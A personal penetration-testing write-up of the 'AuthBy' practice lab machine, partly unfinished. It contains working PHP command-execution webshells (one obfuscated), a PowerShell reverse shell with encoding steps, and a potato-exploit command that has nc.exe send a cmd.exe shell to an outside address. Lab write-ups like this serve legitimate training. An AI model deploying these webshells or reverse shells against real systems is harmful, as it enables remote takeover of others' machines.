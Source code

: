 # AuthBy Writeup

Name: AuthBy
Date:  
Difficulty:  Intermediate
Goals:  
- TJNull List OSCP-like machine - return to form
Learnt:
- 
Beyond Root:
- PHP webshell

- [[AuthBy-Notes.md]]
- [[AuthBy-CMD-by-CMDs.md]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

![](hydraftp.png)

```
wget -r ftp://admin:admin@192.168.174.46/
```

![](htpasswd.png)

![](apache1hash.png)

![](hashcatcracked.png)

![](offseceliteforwebpage.png)

![](webadeshell.png)

https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

![](nowebshellsadness.png)

![](mademyownwebshellfromothers.png)

```php
<html>
<head>
<title>Perspective honing persistence</title>
// Made from simple_cmd.php, simple-backdoor.php
<body>
<form method=POST>
<input type=TEXT name="cmd" size=64 value="<?=$cmd?>"
<input type=TEXT name="systemRequest" size=64 value="<?=$systemRequest?>"
<hr>
</form>
<?php $cmd = $_REQUEST["cmd"];?>
<?php if ($cmd != "") { print Shell_Exec($cmd); } else { echo "cmd=";}?>
<?php
if(isset($_REQUEST['systemRequest'])){
        echo "<pre>";
        $systemRequest = ($_REQUEST['systemRequest']);
        system($systemRequest);
        echo "</pre>";
        die;
}
?>
</body>
</html>
```

[Online php-obfuscator](https://www.gaijin.at/en/tools/php-obfuscator) from [[Wreath-Writeup]] may also help
```php
<html>
<head>
<title>Perspective honing persistence</title>
// Made from simple_cmd.php, simple-backdoor.php
<body>
<form method=POST>
<input type=TEXT name="cmd" size=64 value="<?=$edfff0a7fa1a5?>"
<input type=TEXT name="systemRequest" size=64 value="<?=$k06ca1b7b4ed8?>"
<hr>
</form>
<?php $edfff0a7fa1a5=$_REQUEST[base64_decode('Y21k')];?>
<?php if($edfff0a7fa1a5!=''){printShell_Exec($edfff0a7fa1a5);}else{echo base64_decode('Y21kPQ==');}?>
<?php if(isset($_REQUEST[base64_decode('c3lzdGVtUmVxdWVzdA==')])){echo base64_decode('PHByZT4=');$k06ca1b7b4ed8=($_REQUEST[base64_decode('c3lzdGVtUmVxdWVzdA==')]);system($k06ca1b7b4ed8);echo base64_decode('PC9wcmU+');die;}?>
</body>
</html>
```

![](addederrorreportingzero.png)

```php
<html>
<head>
<title>Perspective honing persistence</title>
// Made from simple_cmd.php, simple-backdoor.php
<body>
<form method=POST>
<input type=TEXT name="cmd" size=64 value="<?=$cmd?>"
<input type=TEXT name="systemRequest" size=64 value="<?=$systemRequest?>"
<hr>
</form>
<?php error_reporting(0);?>
<?php $cmd = $_REQUEST["cmd"];?>
<?php if ($cmd != "") { print Shell_Exec($cmd); } else { echo "cmd=";}?>
<?php
if(isset($_REQUEST['systemRequest'])){
        echo "<pre>";
        $systemRequest = ($_REQUEST['systemRequest']);
        system($systemRequest);
        echo "</pre>";
        die;
}
?>
</body>
</html>

```


Alh4zr3d's obfuscate reverse shell is just this with the variables changed, save this to a .txt file alter variables where required
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

He then base64, little endians it: convert it to UTF-16LE, which the Windows Default encoding, encodes it to base64 then removes the newline .
```bash
iconv -f ASCII -t UTF-16LE $reverseshell.txt | base64 | tr -d "\n"
```

Using Powershell did not work. Uploaded nc.exe felt very dirty doing so.
![](ncupload.png)


![](livda.png)

Uploaded JuicyPotato exploit - [decoder exploit blog](https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/) via FTP as presumably for FTP is being used by an administrator to interact with this box so no need for smelling the juiciest of potatoes, which smell very, very bad. 
![](juicypotato.png)

Forgot that my arsenal was not categorised correctly and uploaded the x64 version, because I am stupid. So used not being able to run `systeminfo` 

![](systeminfo.png)

I will use the BITS CLSID to remind myself of the exploit more than anything:
```
{69AD4AEE-51BE-439b-A92C-86AE490E8B30}
```

Then...reread what is vulnerable and what is not vulnerable and why from various source such as [jlajara](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#genericPotato).

Double checking for the wpad entry
![](nowpadentry.png)

As per ACTUALLY READING THE INSTRUCTIONS
![](window2008server.png)


```
.\potato.exe -ip 127.0.0.1 -cmd "c:\wamp\www\nc.exe 192.168.45.225 6969 -e c:\windows\system32\cmd.exe" -disable_exhaust true -disable_defender true --spoof_host WPAD.EMC.LOCAL
```

Built my own versions of both x86 and x64 SweetPotato considering [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) for both [SweetPotato](https://github.com/CCob/SweetPotato) and [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

x64 and x86 version return the same error
![](neitherx8664-sameerror.png)

But it is not actually running...
![](itran.png)

Ran wes.py and there are lots of Privilege Escalations to fall back on if required. I am just concern that seImpersonate Privilege is just glaring in the face. 

Try https://github.com/antonioCoco/RogueWinRM
## Exploit



## Foothold

## PrivEsc

![](AuthBy-map.excalidraw.md)

## Beyond Root

PHP webshell for Pentesting - does all the techniques and tricks to empirical test which works and which does not to make reporting and remembering a language I can barely say I can use easier.

